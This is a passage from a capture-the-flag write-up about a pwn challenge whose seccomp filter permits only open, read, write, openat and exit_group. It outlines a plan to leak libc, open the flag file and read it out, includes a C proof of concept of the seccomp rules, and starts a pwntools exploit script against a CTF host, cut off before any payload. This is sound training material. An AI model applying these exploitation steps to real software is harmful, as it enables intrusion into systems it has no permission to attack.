 This function is initializing and loading a seccomp filter that basically
forbids every syscall but the read, write, open, exit_group and openat ones.

Hence, we need to develop an exploit using these syscall only.

### Exploitation

The main idea of the exploit is to:

- Leak libc in order to be able to call `open` (we are missing a sycall instruction!)  
- Write `/pwn/flag.txt` to memory and call `open` with it  
- Read from the opened file descriptor, then output what we've read

We've developed a small POC before trying to exploit this, in order to make
sure that the idea would have worker:

```c  
#include <stdio.h>  
#include <seccomp.h>  
#include <unistd.h>  
#include <sys/stat.h>  
#include <fcntl.h>

int main(){  
  
   scmp_filter_ctx uVar1 = seccomp_init(0), uVar2;  
   seccomp_rule_add(uVar1,0x7fff0000,2,0);  
   seccomp_rule_add(uVar1,0x7fff0000,0,0);  
   seccomp_rule_add(uVar1,0x7fff0000,1,0);  
   seccomp_rule_add(uVar1,0x7fff0000,0xe7,0);  
   seccomp_rule_add(uVar1,0x7fff0000,0x101,0);  
   seccomp_load(uVar1);  
  
   int fd = open("./flag.txt",O_RDONLY);  
   if(fd == -1){  
       write(1, "Did you create the flag.txt file?\n", 34);  
   }

   char buff[20] = {0};  
   read(fd, buff, 20);  
   write(1, buff, 20);  
}  
```

Compiling it with gcc (the `-lseccomp` flag was needed) and executing printed
out our fake flag, so we were good to go!

```python  
#!/usr/bin/env python3

from pwn import *

HOST = 'challenges.ctfd.io'  
PORT = 30018

exe = ELF('./chal.out')  
rop = ROP(exe)

context.binary = exe  
context.log_level = 'debug'

def conn():  
   if args.LOCAL:  
       libc = ELF('/usr/lib/libc-2.33.so', checksec = False)  
       return process([exe.path]), libc, './flag.txt'  
   else:  
       libc = ELF('./libc6_2.31-0ubuntu9.1_amd64.so', checksec = False)  
```